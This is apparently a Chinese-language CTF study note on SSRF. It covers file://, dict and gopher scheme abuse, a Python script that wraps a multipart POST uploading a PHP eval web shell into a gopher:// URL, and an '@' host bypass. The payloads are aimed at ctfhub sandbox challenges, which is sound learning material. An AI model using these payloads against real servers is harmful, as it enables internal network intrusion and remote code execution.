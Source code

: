 ```yaml
---
layout: post
title: SSRF
categories: [web,ssrf]
---
```


# SSRF漏洞
以WEB服务器作为跳板进行攻击内网

## 伪协议读取文件

### file:// 协议
作用：
用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响。  
>?url=file:///var/www/html/flag.php

### http/s协议
作用：
探测内网主机存活

### dict协议
作用：
泄露安装软件版本信息，查看端口，操作内网redis服务等

### Gopher协议
作用：
Gopher协议可以说是SSRF中的万金油。利用此协议可以攻击内网的 Redis、Mysql、FastCGI、Ftp等等，也可以发送 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。可用于反弹shell  
可使用gopherus生成payload，对内网应用FastCGI、Redis等中间件进行攻击  

```
gopher伪协议（curl支持gopher），发送GET或POST请求(需要配合http协议二次url编码上传)；本题要用gopher发送POST请求，gopher的格式是gopher://<host>:<port>/<gopher-path>_后接tcp流，本题默认伪gopher://127.0.0.1:80/_后接post请求
```

使用gopher协议发送post请求
```py
import urllib.parse
payload =\
"""POST /flag.php HTTP/1.1
Host: challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php
Content-Type: multipart/form-data; boundary=---------------------------130425879537888649393146439566
Content-Length: 384
Origin: http://challenge-7dbc7396ca84c6e3.sandbox.ctfhub.com:10800
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------130425879537888649393146439566
Content-Disposition: form-data; name="file"; filename="hph.php"
Content-Type: application/octet-stream

<?php @eval($_POST['cmd']);?>
-----------------------------130425879537888649393146439566
Content-Disposition: form-data; name="file"

提交查询
-----------------------------130425879537888649393146439566--

"""  
 
#注意payload的最后一行是回车（空行），表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A', '%0D%0A')
new2 = urllib.parse.quote(new)
result = 'gopher://127.0.0.1:80/_'+new2
print(result)       # 这里因为是GET请求所以要进行两次url编码
```


## ByPass

### 使用`@`跳过
/?url=`http://notfound.ctfhub.com@127.0.0.1/flag.php`与`http://127.0.0.1`效果相同

### 域名重绑定

### 进制转换